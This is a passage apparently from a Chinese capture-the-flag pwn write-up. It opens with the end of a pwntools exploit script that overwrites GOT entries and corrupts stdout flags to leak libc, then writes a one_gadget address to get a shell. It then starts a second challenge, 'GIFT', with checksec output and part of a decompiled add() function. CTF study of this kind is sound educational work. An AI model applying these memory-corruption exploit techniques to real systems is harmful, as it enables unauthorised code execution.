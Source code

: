 ```python
sla(": ",str(offset_write_l/4))
sla("]:",str(puts_got))

sl(str(0x2000000))
offset_write_h = 0x141ee6b4
sl(str(offset_write_h/4))
sl(str(0))

sl(str(0x4000000))
offset_stdout = 0x241ef690
sl(str(offset_stdout/4))
sl(str(4222425088)) # 0xfbad1800
libc.address = u64(p.recvuntil("\x7f")[-6:].ljust(8,'\x00')) - 0x8ec50
og = one[2] + libc.address
success("libc.address = " + hex(libc.address))
success("og = " + hex(og))
sl(pd)
sl(str(printf_got/4))
sl(str(og))

ti()
```



## GIFT:

check:

```
➜  GIFT checksec chall
[*] '/home/zty/CTF/CISCB/GIFT/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

（这次pwn题是跟got表过不去了 是吧）

### 题目逻辑：

add

```c
int add()
{
  int i; // [rsp+8h] [rbp-18h]
  int v2; // [rsp+Ch] [rbp-14h]
  _QWORD *v3; // [rsp+10h] [rbp-10h]
  void *buf; // [rsp+18h] [rbp-8h]

  for ( i = 0; i <= 7 && chunk_ptr[i]; ++i )
    ;
  if ( i == 8 )
  {
    puts("full!");
    exit(-1);
  }
  v3 = malloc(0x10uLL);
  if ( !v3 )
  {
    puts("malloc failed!");
    exit(-1);
  }
```